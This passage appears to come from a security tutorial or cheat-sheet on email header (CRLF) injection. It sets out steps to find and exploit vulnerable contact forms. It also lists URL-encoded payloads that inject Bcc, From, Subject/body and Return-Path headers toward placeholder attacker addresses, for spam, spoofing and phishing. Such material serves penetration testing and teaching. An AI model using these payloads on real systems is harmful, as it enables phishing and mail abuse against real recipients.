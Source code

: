     - **Email Spoofing:** Changing the apparent sender of the email.
        

## 🧪 Exploitation Techniques

- **Step-by-step walkthrough of how it’s exploited**
    
    1. **Identify Email Sending Functionality:** Find a web form or API endpoint that sends an email where at least one user-controlled field is incorporated into the email headers or body (e.g., a "Contact Us" form where the user's email is used as the `Reply-To` or `From` header).
        
    2. **Test for CRLF Injection:**
        
        - In the vulnerable input field, inject a basic CRLF sequence followed by a test header: `user@example.com%0D%0AUnrelated-Header: Test`. (`%0D%0A` is URL-encoded CRLF).
            
        - Submit the form.
            
        - Check the received email (or email logs if available) to see if `Unrelated-Header: Test` appeared in the email headers.
            
    3. **Craft Malicious Payload:** Once CRLF injection is confirmed, craft a more malicious payload.
        
        - **Recipient Injection (Spam/Phishing):** Inject `Bcc:` or `Cc:` to send email to arbitrary recipients.
            
            - _Input:_ `legit@example.com%0D%0ABcc: spam_target@evil.com`
                
        - **Sender Forgery (Spoofing):** Change the `From:` header to make the email appear to come from someone else.
            
            - _Input:_ `legit@example.com%0D%0AFrom: spoofed@company.com`
                
        - **Content/Subject Injection:** Inject a new subject or entire body content. This requires `\r\n\r\n` to signify the end of headers.
            
            - _Input:_ `legit@example.com%0D%0ASubject: Your password has expired!%0D%0A%0D%0AClick here to reset: http://phishing.com/reset`
                
    4. **Deliver Payload:** Submit the malicious input through the application.
        
    5. **Verify Impact:** Check the recipient's inbox or mail server logs to confirm that the malicious headers or content were successfully injected.
        
- **Payload examples (URL-encoded)**
    
    - **Injecting BCC Header:** `test@example.com%0D%0ABcc: attacker@evil.com`
        
    - **Injecting FROM Header (Email Spoofing):** `no-reply@example.com%0D%0AFrom: admin@company.com`
        
    - **Injecting Subject and Body (Email Splitting):** `victim@example.com%0D%0ASubject: Urgent: Account Suspension Notice%0D%0A%0D%0ADear customer,%0D%0AYour account will be suspended unless you verify your details at: http://malicious.link`
        
    - **Injecting `Return-Path` or other headers:** `user@example.com%0D%0AReturn-Path: <attacker@evil.com>`
        
- **Tools used**
    
    - **Web Browser Developer Tools:** For inspecting network requests and directly modifying form inputs.
        